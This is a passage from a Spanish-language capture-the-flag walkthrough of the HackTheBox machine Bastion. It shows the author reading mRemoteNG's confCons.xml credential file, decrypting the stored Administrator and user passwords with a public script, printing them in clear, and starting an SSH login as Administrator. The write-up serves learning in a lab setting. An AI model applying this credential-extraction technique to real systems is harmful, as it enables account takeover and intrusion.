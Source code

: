 ```powershell
PS C:\Program Files (x86)> ls C:\Users\L4mpje\AppData\Roaming\mRemoteNG

    Directory: C:\Users\L4mpje\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
-a----        22-2-2019     14:03           6316 confCons.xml
...

PS C:\Program Files (x86)>
```

Y si, pues viendo su contenido encontramos las contraseñas de las que se hablaban:

```powershell
PS C:\Program Files (x86)> type C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml
```

Vemos unas credenciales del usuario **Administrator**:

![186win_confConsXML_1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186win_confConsXML_1.png)

Y otras del usuario **L4mpje**:

![186win_confConsXML_2](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastion/186win_confConsXML_2.png)

Pero, están encriptadas, como las desencriptamos ❓

Con una simple búsqueda de `decrypt mremoteng` en la web, obtenemos este recurso que se encarga de esa tarea:

* [https://github.com/haseebT/mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).

Lo clonamos y simplemente debemos pasarle la contraseña encriptada, probemos con la del usuario **Administrator** primero y despues con la de **L4mpje**:

```bash
❱ python3 mRemoteNG-Decrypt/mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="   
Password: thXLHM96BeKL0ER2
```

```bash
❱ python3 mRemoteNG-Decrypt/mremoteng_decrypt.py -s "yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"   
Password: bureaulampje
```

(Es la misma con la que ingresamos por medio de **SSH**).

Perfecto, pues probemos esa contraseña del usuario **Administrator** contra el servicio **SSH**:

```bash
❱ ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password:   
```
